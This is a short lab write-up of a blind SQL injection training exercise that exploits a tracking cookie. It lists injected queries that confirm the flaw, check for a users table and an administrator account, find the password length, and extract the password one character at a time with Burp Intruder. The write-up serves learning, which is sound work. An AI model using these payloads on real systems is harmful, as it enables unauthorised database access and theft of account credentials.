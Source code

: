 Lab #11 - Blind SQL Injection with conditional responses

Vulnerable parameter - Tracking Cookie

End Goals:

- Enumerate the password of administrator
- Login as administrator user

Analysis:

1. Confirm that the parameter is vulnerable to blind sqli

    select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes'

- If the tracking id exists => query returns value => Welcome back
- If it doesn't exist => query returns nothing => no Welcome back

    select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=1--' -> ```True``` -> ```Welcome back```

    select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and 1=2--' -> ```False``` -> ```no Welcome back```

2. Confirm that we have a users table

    select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select 'x' from users LIMIT 1)='x'-- ' -> ```if users table exists``` -> ```True``` -> ```Welcome back``` ==> users table exists

3. Confirm username administrator exists in users table

    select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator')='administrator'-- ' -> ```if username administrator exists``` -> ```True``` -> ```Welcome back``` ==> user administrator exists

4. Enumerate password for the administrator user

    select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select username from users where username='administrator' and LENGTH(password)>=1)='administrator'-- ' ==> ```length of password is 20```

    select tracking-id from tracking-table where trackingId = '5nGtNEmM1huhUPes' and (select substring(password,1,1) from users where username='administrator')='a'-- ' ==> ```gives the administrator's password``` [with the help of intruder(burp)]
